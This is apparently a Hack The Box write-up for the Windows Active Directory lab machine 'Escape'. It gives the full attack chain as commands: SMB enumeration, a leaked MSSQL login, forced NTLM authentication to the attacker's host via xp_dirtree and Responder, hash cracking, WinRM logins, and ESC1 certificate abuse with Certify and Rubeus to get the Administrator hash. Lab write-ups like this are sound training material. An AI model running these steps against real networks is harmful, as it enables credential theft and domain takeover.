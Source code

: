 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Escape/logo.png
date: 2023-12-21 09:45:47+07:00
machine_author:
  link: https://app.hackthebox.com/users/184611
  name: Geiseric
modified: 2023-12-21 09:45:47+07:00
tags:
- Escape
- Bruteforce
- leak
- mssql
- xp_cmdshell
- responder
- xp_dirtree
- NTLM
- NTLMv2
- WinRM
- Evil-Winrm
- BAK
- ADCS
- Certify
- Rubeus
- smb
- hashcat
- Windows
- OSCP
- Writeup
title: Escape
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Escape is a Medium difficulty Windows Active Directory machine that starts with an SMB share that guest authenticated users can download a sensitive PDF file. Inside the PDF file temporary credentials are available for accessing an MSSQL service running on the machine. An attacker is able to force the MSSQL service to authenticate to his machine and capture the hash. It turns out that the service is running under a user account and the hash is crackable. Having a valid set of credentials an attacker is able to get command execution on the machine using WinRM. Enumerating the machine, a log file reveals the credentials for the user `ryan.cooper`. Further enumeration of the machine, reveals that a Certificate Authority is present and one certificate template is vulnerable to the ESC1 attack, meaning that users who are legible to use this template can request certificates for any other user on the domain including Domain Administrators. Thus, by exploiting the ESC1 vulnerability, an attacker is able to obtain a valid certificate for the Administrator account and then use it to get the hash of the administrator user.   

### Difficulty:

`Medium`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.11.202`

```bash
nmap -sC -sV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 10.10.11.202 -oA ./nmap/escape -Pn
```

|Ports|Service
|53| domain Simple DNS Plus
|88| kerberos-sec  Microsoft Windows Kerberos
|135| msrpc Microsoft Windows RPC
|139| netbios-ssn  Microsoft Windows netbios-ssn
|389| ldap  Microsoft Windows Active Directory LDAP
|445| Windows Server 2016 Standard 14393
|464| kpasswd5?
|593| ncacn_http  Microsoft Windows RPC over HTTP 1.0
|636| Microsoft Windows Active Directory LDAP
|1433| Microsoft SQL Server 2019
|5985| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

![](https://photos.squarezero.dev/file/abir-images/Escape/1.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/2.png)

Next, I checked the SMB server where I found some shares.

`smbclient -N -L //10.10.11.202`

![](https://photos.squarezero.dev/file/abir-images/Escape/3.png)

I did some other enumeration and found nothing interesting.

# Foothold

I logged Into [Public]() Share using anonymous login and I found a PDF.

`smbclient -N //10.10.11.202/Public`

![](https://photos.squarezero.dev/file/abir-images/Escape/4.png)

Inside the PDF I found credentials to log into SQL server.

Credential -> `PublicUser : GuestUserCantWrite1`

![](https://photos.squarezero.dev/file/abir-images/Escape/5.png)

Using this credential I logged in to MSSQL server.

`mssqlclient.py 'PublicUser:GuestUserCantWrite1@10.10.11.202'`

![](https://photos.squarezero.dev/file/abir-images/Escape/6.png)

I tried to see If I could execute a command using `xp_cmdshell`` but no luck. I tried to activate it but I don't have the permissions.

`xp_cmdshell 'whoami'`

`sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
![](https://photos.squarezero.dev/file/abir-images/Escape/7.png)

I looked for databases in the server but nothing interesting.

`SELECT name FROM master.dbo.sysdatabases`

![](https://photos.squarezero.dev/file/abir-images/Escape/8.png)

I started Responder in my local machine to get an NTLMv2 response by making MSSQL server read something from my localhost.

Start Responder -> `sudo responder -vI tun0`

Read from MSSQL -> `xp_dirtree '\\10.10.14.22\myshare';`

![](https://photos.squarezero.dev/file/abir-images/Escape/9.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/10.png)

I used hashcat to crack the NTLMv2 Hash.

`hashcat -m 5600 sql_svc_hash.txt /usr/share/wordlists/rockyou.txt`

![](https://photos.squarezero.dev/file/abir-images/Escape/11.png)

Password -> `REGGIE1234ronnie`

I used [Evil-Winrm]() to login to the user but there was no flag.

`evil-winrm -u sql_svc -p 'REGGIE1234ronnie' -i 10.10.11.202`

![](https://photos.squarezero.dev/file/abir-images/Escape/12.png)

After some enumeration I found `ERRORLOG.BAK` inside `C:\SQLServer\Logs`.

![](https://photos.squarezero.dev/file/abir-images/Escape/13.png)

At the very end, we can see the credentials of Ryan.Cooper.

![](https://photos.squarezero.dev/file/abir-images/Escape/14.png)

Credential -> `Ryan.Cooper : NuclearMosquito3`

I logged in using Evil-Winrm and got the flag.

![](https://photos.squarezero.dev/file/abir-images/Escape/15.png)



# Privilege Escalation

I tried ASREProasting and Kerberoasting but no luck

`GetNPUsers.py -dc-ip 10.10.11.202 sequel.htb/sql_svc -request`

`GetUserSPNs.py -dc-ip 10.10.11.202 sequel.htb/sql_svc -request`

![](https://photos.squarezero.dev/file/abir-images/Escape/16.png)

I had to dig deep and Found TLS certificates on port 3269 which was by sequel-DC-CA.

`openssl s_client -showcerts -connect 10.10.11.202:3269  | openssl x509 -noout -text`

![](https://photos.squarezero.dev/file/abir-images/Escape/17.png)

I uploaded [Certify.exe](https://github.com/GhostPack/Certify) to the victim machine and found the vulnerable certificate.

`.\Certify.exe find /vulnerable`

![](https://photos.squarezero.dev/file/abir-images/Escape/18.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/19.png)

We can see the Validation period is 10 years Also the owner is Administrator. There are bad permissions listed which we can abuse as well.

Let's run Certify with alt name administrator to get certification which we can later craft to abuse.

```Powershell
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```

We get an RSA key and Certificate.

```Powershell
----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAptfb4Z6gnih00wPublNRZnDeJew6dNUjnIK9G3ABXssfprGP
qy0qdSl4s71+m2YSaC/4uDhEIwcxLDhMqwlmMzmCv8QQmJyosvtAFUFxtAg+dpBU
--snip--
/PuJaiETVwdaoqNlswkMHKnR0s
LWZ3L+xYD9LCVDkKC7sgleaa7uScTURFCr5F2FctdBwXSdydtFwRCMGL4BHLpsDv
Svcn4kSdHqzoGeooLwlIi+j4J+2DOWdYwJBhDd4wpPauoLdLR1EU
-----END RSA PRIVATE KEY-----
----BEGIN CERTIFICATE-----
MIIGEjCCBPqgAwIBAgITHgAAAAuikoIHtx76ygAAAAAACzANBgkqhkiG9w0BAQsF
ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwHhcNMjMxMjIyMDkxMTUwWhcNMjUxMjIy
MDkyMTUwWjBTMRMwEQYKCZImiZPy
--snip--
ei9J2F4a+S18ZzwBww23Zg13HJSu
4gr2IESXJuevi5d3VZACMXXcUs2rV1QNeRfqZNSQHepPEqlX2XEJMCTsyT4Pzqhr
XgWWAS1a1QQe1UUrvE8dDT7auRt+yg==
-----END CERTIFICATE-----
```

We can save this in one file cert.pem and convert it to cert.pfx


```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![](https://photos.squarezero.dev/file/abir-images/Escape/20.png)

Next, I upload [Rubeus](https://github.com/GhostPack/Rubeus) & [cert.pfx](). 

Now we directly include the ticket in the system or get credentials that we can use to log in via Evil-Winrm.

Option 1:
```
.\Rubeus.exe asktgt /domain:SEQUEL.HTB /user:Administrator /certificate:cert.pfx /dc:dc.SEQUEL.HTB /ptt
```

Option 2:
```
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

I used the 2nd option to get NTLM hash of the administrator.

![](https://photos.squarezero.dev/file/abir-images/Escape/21.png)

After logging in I got the root flag.

![](https://photos.squarezero.dev/file/abir-images/Escape/22.png)



